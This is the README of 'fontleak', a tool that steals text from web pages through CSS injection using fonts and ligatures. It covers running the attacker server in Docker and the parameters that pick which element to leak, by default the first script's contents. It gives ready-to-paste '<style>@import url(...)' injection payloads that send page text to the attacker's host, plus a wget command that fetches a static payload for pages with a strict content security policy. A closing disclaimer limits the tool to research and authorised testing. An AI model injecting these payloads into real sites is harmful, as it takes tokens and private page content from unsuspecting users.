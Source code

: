[![License](https://img.shields.io/badge/License-MIT-blue.svg)](https://opensource.org/licenses/MIT)
[![GitHub release (latest by date)](https://img.shields.io/github/v/release/adrgs/fontleak)](https://github.com/adrgs/fontleak/releases)
[![GitHub stars](https://img.shields.io/github/stars/adrgs/fontleak)](https://github.com/adrgs/fontleak/stargazers)
[![GitHub forks](https://img.shields.io/github/forks/adrgs/fontleak)](https://github.com/adrgs/fontleak/network/members)
[![GitHub contributors](https://img.shields.io/github/contributors/adrgs/fontleak)](https://github.com/adrgs/fontleak/graphs/contributors)
[![Follow @adragos_](https://img.shields.io/twitter/follow/adragos_?style=social)](https://twitter.com/adragos_)

<p align="center">
  <img width="400" alt="fontleak logo" src="https://github.com/user-attachments/assets/69d9b715-e9fc-4bc6-8e0c-b4126f44434e" />
</p>

# fontleak

Fast exfiltration of text using CSS and Ligatures. For a detailed technical explanation, check out my [blog post](https://adragos.ro/fontleak).

## Getting Started

#### Using Docker

You can quickly get started with fontleak using Docker:

```bash
# Run the container
docker run -it --rm -p 4242:4242 -e BASE_URL=http://localhost:4242 adrgs/fontleak
```

Set the `BASE_URL` environment variable to the public URL where the site will be accessible.

> This will only setup a basic HTTP/1.1 server. Use a reverse proxy like Caddy for TLS and HTTP/2 or HTTP/3.


## Using fontleak

The fontleak URL accepts several parameters to customize its behavior:

#### Parameters
- `selector`: CSS selector that matches exactly one element in the target page. Default: `SELECTOR` env var or `script:first-of-type`
- `attr`: Attribute to exfiltrate. Default: `ATTR` env var or `textContent`
- `parent`: Parent element of the target element (options: `body` or `head`). Default: `PARENT` env var or `body`
- `alphabet`: Characters to include in the font. Default: `ALPHABET` env var or `string.printable` minus whitespace (except space)
- `timeout`: Timeout for @import url(). Default: `TIMEOUT` env var or `10` seconds
- `strip`: Strip unknown characters from the leak. Default: `true`
- `length`: Length of the leak. Default: `64`
- `prefix`: Prefix to remove (or to start counter from for Safari) for the dynamic leak. Default: empty string

#### Example Usage

Basic usage:
```html
<style>@import url("http://localhost:4242/");</style>
```

Custom selector, parent, and alphabet:
```html
<style>@import url("http://localhost:4242/?selector=.secret&parent=head&alphabet=abcdef0123456789");</style>
```

> **⚠️ Warning:** The CSS selector must match exactly one element in the target page. If the selector matches multiple elements or no elements, fontleak will fail to exfiltrate the text.

## Environment Variables

You can configure fontleak using these environment variables:

- `BASE_URL`: Base URL where the application is accessible (e.g., http://localhost:4242)
- `BASE_LEAK_URL`: Base URL where the leak is accessible for images. Default: same as BASE_URL
- `FASTAPI_LOGGING`: Enable or disable FastAPI logging. Default: "true"
- `SELECTOR`: CSS selector for target element. Default: "script:first-of-type"
- `PARENT`: Parent element (body or head). Default: "body"
- `ALPHABET`: Characters to include in the font. Default: string.printable minus whitespace
- `ATTR`: Attribute to exfiltrate. Default: "textContent"
- `TIMEOUT`: Timeout for @import url(). Default: 10
- `LENGTH`: Length of the payload for static leaks. Default: 100
- `BROWSER`: Browser compatibility (all, chrome, firefox, safari). Default: "all"

## Static payload

By default, fontleak will use [sequential import chaining](https://d0nut.medium.com/better-exfiltration-via-html-injection-31c72a2dae8b) to efficiently exfiltrate text. But it's not always the case that the target page CSP allows this. 

In this case, you can use the `/static` endpoint to generate a static CSS payload that only requires lax CSP for `img-src` and `font-src`.

```bash
wget http://localhost:4242/static -O payload.css
```

Which takes these additional parameters:
- `length`: Length of the payload. Default: `LENGTH` env var or `100`
- `browser`: Browser compatibility (options: `all`, `chrome`, `firefox`, `safari`). Default: `BROWSER` env var or `all`

> **⚠️ Warning:** Size of payload.css is directly proportional to the `length` and `alphabet` size. Choosing a target browser can enable certain optimizations.

Instead of unique ids, fontleak will group requests by (IP, User-Agent, Referer) pairs.

## Disclaimer

fontleak is a research project intended for educational and security testing purposes only. The author is not responsible for any misuse of this software. Users are solely responsible for ensuring they have proper authorization before using this tool in any environment. Use at your own risk.